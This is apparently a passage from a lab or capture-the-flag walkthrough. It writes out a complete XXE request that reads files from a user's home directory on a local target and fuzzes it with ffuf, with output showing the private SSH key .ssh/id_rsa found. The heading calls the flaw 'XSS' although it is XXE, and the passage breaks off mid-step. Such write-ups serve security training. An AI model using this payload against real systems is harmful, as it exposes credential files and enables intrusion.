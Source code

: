 ```xml
```

Let´s note thre is an user david: `david:x:1000:1000::/home/david:/bin/bash`

> [!security-issue] XSS Vunerability

## Explotation

### Step 1: Fuzzing directories

**Fuzz in `/home/david`**

*I. Storage the Request in RAW format in `xxe_rq.txt`:*

![[Pasted image 20250217124738.png]]

In console or using vim:

```bash
echo "POST /magic.php HTTP/1.1
Host: 192.168.0.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 182
Origin: http://192.168.0.102
Connection: keep-alive
Referer: http://192.168.0.102/
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE details [
		<!ENTITY myxxe SYSTEM "file:///home/david">
]>
<details><email>&myxxe;</email><password>user2025</password></details>" > xxe_rq.txt
```

*II. Using ffuf:*

```bash
ffuf -ic -c -request-proto http -request xxe_rq.txt -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -fs 85
```

**OUTPUT**

```bash
.profile                [Status: 200, Size: 892, Words: 138, Lines: 28, Duration: 126ms]
.ssh/id_rsa             [Status: 200, Size: 2687, Words: 17, Lines: 39, Duration: 110ms]
.ssh/id_rsa.pub         [Status: 200, Size: 653, Words: 13, Lines: 2, Duration: 141ms]
.viminfo                [Status: 200, Size: 10157, Words: 749, Lines: 290, Duration: 138ms]
```

*III. Let´s go back to Burp Suite and read `.viminfo`, it might have info of user:*
